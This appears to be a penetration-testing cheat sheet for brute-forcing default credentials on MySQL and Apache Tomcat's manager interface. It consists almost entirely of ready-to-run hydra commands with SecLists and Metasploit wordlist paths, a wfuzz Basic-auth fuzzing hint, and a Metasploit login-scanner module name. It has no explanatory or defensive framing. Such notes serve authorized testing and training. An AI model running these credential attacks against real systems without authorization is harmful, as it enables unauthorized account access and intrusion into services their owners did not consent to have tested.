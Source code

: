 # brute force default credentials

## mysql
```bash
hydra $IP mysql -C /usr/share/seclists/Passwords/Default-Credentials/mysql-betterdefaultpasslist.txt -t 1
```

## tomcat

colon separated: /usr/share/seclists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt
```bash
hydra -C /usr/share/seclists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt $IP http-get /manager/html
```

try more than just the default colon separated default creds from seclists.
```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt -P /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt http-get://$IP/manager/html
```

### wfuzz
header `Authorization: Basic FUZZ`
/usr/share/seclists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist_base64encoded.txt

### metasploit
auxiliary/scanner/http/tomcat_mgr_login
